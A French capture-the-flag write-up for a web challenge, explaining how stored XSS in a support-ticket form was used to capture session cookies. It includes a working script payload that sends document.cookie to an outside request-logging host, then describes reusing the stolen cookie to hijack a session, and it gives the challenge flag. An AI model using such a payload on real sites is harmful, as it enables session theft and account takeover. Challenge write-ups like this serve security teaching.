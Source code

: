 # Internal Support 1 

> Categorie(s): `web`

![Consigne](img/Consigne.png)

En se connectant au site web et en essayant d'injecter du JS en créant un ticket, on se rends rapidement compte que le site est vulnérable aux **XSS**:

Grâce à l'outil [requestbin.com](https://requestbin.com/), nous sommes capables de lire les requêtes HTTP à destination du site suivant:

![requestbin](img/requestbin.png)

On crée un ticket avec le bon payload:

```html
<script> window.location = "https://dced6e45ea51d0c8a6f9054020499e07.m.pipedream.net/?cookie=" + document.cookie </script>
```

Si on inspecte les logs, on peut observer des requêtes provenant de différentes adresses IP et avec différent Cookies:  

![http_request](img/http_request.png)

En remplacant notre cookie par celui que nous avons intercepté, on est redirigé vers la page:

![redirect](img/redirect.png)

Le flag est donc `NoUserValidationIsADangerousPractice`
